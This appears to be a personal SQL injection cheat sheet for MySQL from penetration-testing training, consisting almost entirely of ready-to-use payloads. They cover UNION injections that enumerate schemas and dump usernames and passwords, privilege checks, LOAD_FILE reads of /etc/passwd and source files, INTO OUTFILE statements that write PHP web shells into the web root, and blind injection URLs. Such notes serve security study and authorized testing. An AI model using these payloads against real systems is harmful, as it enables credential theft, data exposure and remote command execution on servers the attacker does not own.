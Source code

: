 ```bash

## UNION-based using INFORMATION_SCHEMA database to get current database's table, column, database name
' union select null, table_name, column_name, table_schema from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //


# User && Privileges
## DB User
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

## UNION injection to read user info
cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges(check if we have super_user privilege && FILE privilege..)
SELECT super_priv FROM mysql.user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

## LOAD FILE
SELECT LOAD_FILE('/etc/passwd');
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

# FILE WRITE PRIV
- User with FILE privilege enabled
- MySQL global secure_file_priv variable not enabled
- Write access to the location we want to write to on the back-end server

# Check if we have file write privilege
SHOW VARIABLES LIKE 'secure_file_priv';
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

# php webshell using file write privilege
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -


# Blind SQL Injections
##boolean-based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
#time-based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

# MySQL Fingerprinting
SELECT @@version
: When we have full query output	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'
In MSSQL it returns MSSQL version. Error with other DBMS.

SELECT POW(1,1)	When we only have numeric output	1	Error with other DBMS

SELECT SLEEP(5)	Blind/No Output	Delays page response for 5 seconds and returns 0.	Will not delay response with other DBMS
```